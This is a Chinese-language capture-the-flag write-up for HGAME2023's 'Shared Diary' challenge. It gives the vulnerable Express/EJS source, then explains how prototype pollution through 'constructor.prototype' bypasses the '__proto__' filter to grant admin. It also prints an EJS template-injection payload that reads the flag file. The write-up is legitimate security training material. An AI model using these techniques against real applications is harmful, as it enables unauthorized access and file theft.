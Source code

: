 # [HGAME2023]Shared Diary
![](<./img/Pasted image 20230205115018.png>)

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const session = require('express-session');
const randomize = require('randomatic');
const ejs = require('ejs');
const path = require('path');
const app = express();

function merge(target, source) {
    for (let key in source) {
        // Prevent prototype pollution
        if (key === '__proto__') {
            throw new Error("Detected Prototype Pollution")
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

app
    .use(bodyParser.urlencoded({extended: true}))
    .use(bodyParser.json());
app.set('views', path.join(__dirname, "./views"));
app.set('view engine', 'ejs');
app.use(session({
    name: 'session',
    secret: randomize('aA0', 16),
    resave: false,
    saveUninitialized: false
}))

app.all("/login", (req, res) => {
    if (req.method == 'POST') {
        // save userinfo to session
        let data = {};
        try {
            merge(data, req.body)
        } catch (e) {
            return res.render("login", {message: "Don't pollution my shared diary!"})
        }
        req.session.data = data

        // check password
        let user = {};
        user.password = req.body.password;
        if (user.password=== "testpassword") {
            user.role = 'admin'
        }
        if (user.role === 'admin') {
            req.session.role = 'admin'
            return res.redirect('/')
        }else {
            return res.render("login", {message: "Login as admin or don't touch my shared diary!"})
        } 
    }
    res.render('login', {message: ""});
});

app.all('/', (req, res) => {
    if (!req.session.data || !req.session.data.username || req.session.role !== 'admin') {
        return res.redirect("/login")
    }
    if (req.method == 'POST') {
        let diary = ejs.render(`<div>${req.body.diary}</div>`)
        req.session.diary = diary
        return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
    }
    return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
})


app.listen(8888, '0.0.0.0');
```

~~像啊，很像啊~~

存在原型链污染，虽然过滤了`__proto__`，但依然可以通过`constructor.prototype`来访问到

密码不正确时，并未为`user`设置`role`属性，因此可以通过原型添加`role`属性为`admin`来绕过登录

对于`/`路由，存在`ejs`的`SSTI`，常规注入即可

![](<./img/Pasted image 20230205122042.png>)

```
/
```

![](<./img/Pasted image 20230205124319.png>)

```javascript
<%= process.mainModule.require("fs").readFileSync('/flag'); %>
```

![](<./img/Pasted image 20230205124914.png>)

#Web #nodejs #原型污染 #ejs #SSTI #RCE 